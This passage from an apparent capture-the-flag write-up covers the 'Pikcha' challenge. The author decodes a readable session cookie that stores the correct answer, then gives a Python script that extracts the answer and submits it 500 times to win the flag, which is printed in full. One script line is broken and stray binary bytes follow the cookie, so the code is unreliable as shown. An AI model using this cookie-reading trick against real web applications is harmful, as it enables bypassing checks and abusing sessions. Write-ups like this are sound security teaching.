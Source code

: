 ```
session = {"answer":[59,59,129,148],"correct":0,"image":"./static/chall-images/JQAOyTrLvw.jpg"}ípjRìc­Î(}ñ®RN
```

Initially, I tried just setting `correct` to 500, but that seemed to result in errors, so I switched focus to the `answer` array. And sure enough, the four numbers given were the correct input for the given image. With this information it was pretty easy to write a script to extract the answer from the cookie and submit it:

```
url = "http://104.197.195.221:8084/"
r = requests.get(url)
cookie = r.cookies.items()[0][1]
cookie = cookie.split(".")[0].encode('ascii') + b'==='
ans = json.loads().decode('ascii'))["answer"]
ans = str(ans[0]) + " " + str(ans[1]) + " " + str(ans[2]) + " " + str(ans[3])
data = {'guess': ans}
r = requests.post(url, data=data, cookies = r.cookies)
```

Do this 500 times, and you get the flag from the request: `UMASS{G0tt4_c4tch_th3m_4ll_17263548}`

## Pikcha2
# Details
Solves: 10

No more mistakes! No we'll see who's the best pokemon master out there!

# Writeup
Logging into the site this time we're greeted with the same thing:

![pikcha site image](img/pikcha_site.jpg)
